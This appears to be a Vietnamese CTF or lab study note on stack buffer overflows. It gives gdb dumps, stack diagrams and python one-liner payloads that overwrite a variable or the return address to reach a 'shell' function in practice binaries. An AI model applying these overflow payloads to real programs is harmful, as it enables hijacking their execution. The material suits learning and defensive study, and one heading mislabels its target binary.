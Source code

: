     0xffffd744:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
    0xffffd74c:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
    0xffffd754:     0x61    0x61    0x00    0x00    0x00    0x00    0x00    0x00
    0xffffd75c:     0x47    0xe6    0xe2    0xf7    0x02    0x00    0x00    0x00
    + 16 byte đầu là 16 ký tự a trong chuỗi, 2 byte còn lại là 2 byte tràn sang biến flag


`pattern`
- Phải nhập giá trị cho  biến pattern có giá trị là 62426141
- `gdb` command
    +  ./pattern.out $(python -c "print('a'*16 + 'bBaA')")
    +  ./pattern.out $(python -c "print('a'*16 + '\x62\x42\x61\x41')")
`Stack Frame`
|           |    
|           |buffer[16]
|           |
|           |    
|           |
|           |
|62 42 61 41|pattern(Theo nguyên tắc little edian phải ghi ngược lại)
|           |ebp(Frame pointer)
|           |eip(return address)
|           |argc
|___________|argv


`bof2`
- `gdb` command
    +  python -c "print('A'*40 + '\xef\xbe\xad\xde')" | ./bof2.out

`bof3`
- `gdb` command
    +  đầu tiên vào gdb để lấy địa chỉ của hàm shell: gdb bof3.out
    +  sau đó gõ lệnh info address shell, sẽ có dc địa chỉ hàm shell là 0x804845b 
    +  python -c "print('A'*128 + '\x5b\x84\x04\x08')" | ./bof3.out

`bof3`
- `gdb` command
    +  python -c "print('A'*204 + '\x6b\x84\x04\x08')" | ./bof1.out (nhân 204 vì thêm 4 byte để xuống được eip)
`ctf`
`Stack Frame`
- Truyền địa chỉ của hàm myfunc vào return address của hàm vuln như bình thường 
- Tuy nhiên hàm myfunc có 2 đối số là p và q
- Khi `disas myfunc` ta thấy 
    +   0x0804856e <+83>:    cmp    DWORD PTR [ebp+0x8],0x4081211
    +   0x08048586 <+107>:   cmp    DWORD PTR [ebp+0xc],0x44644262
=> điều này cho thấy, kể cả khi truyền vào ko có parameter thì nó vẫn sẽ ngẫu nhiên so sánh 2 biến p và q dựa vào vị trí ebp+0x8 và ebp+0xc (nếu là hàm bình thường thì 2 vị trí này là 2 vị trí của 2 parameter khi truyền vào). Vì vậy ta sẽ truyền giá trị của p và q vào vị trí ebp+0x8 và ebp+0xc.
